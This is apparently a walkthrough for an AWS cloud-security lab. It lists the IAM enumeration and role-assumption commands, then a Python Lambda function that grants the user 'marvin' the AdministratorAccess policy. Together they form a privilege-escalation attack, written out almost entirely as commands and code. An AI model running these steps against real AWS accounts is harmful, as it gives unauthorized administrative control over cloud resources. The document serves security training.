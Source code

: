 `aws configure --profile marvin`

`aws iam list-attached-user-policies --user-name marvin --profile marvin`

`aws iam get-policy-version --policy-arn <marvin-policy arn> --version-id v1 --profile marvin`

`aws iam list-roles --profile marvin`

`aws iam list-attached-role-policies --role-name debug-role-<uuid> --profile marvin`

`aws iam list-attached-role-policies --role-name lambdaManager-role-<uuid> --profile marvin`

`aws iam get-policy-version --policy-arn <lambdaManager-policy arn> --version-id v1 --profile marvin`

`aws sts assume-role --role-arn <lambdaManager-role arn> --role-session-name lambdaManager --profile marvin`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:

**Note**: The name of the file needs to be `lambda_function.py`.

```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'marvin', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```

`aws lambda create-function --function-name admin_function --runtime python3.9 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager`

`aws lambda invoke --function-name admin_function out.txt --profile lambdaManager`

`aws iam list-attached-user-policies --user-name marvin --profile marvin`
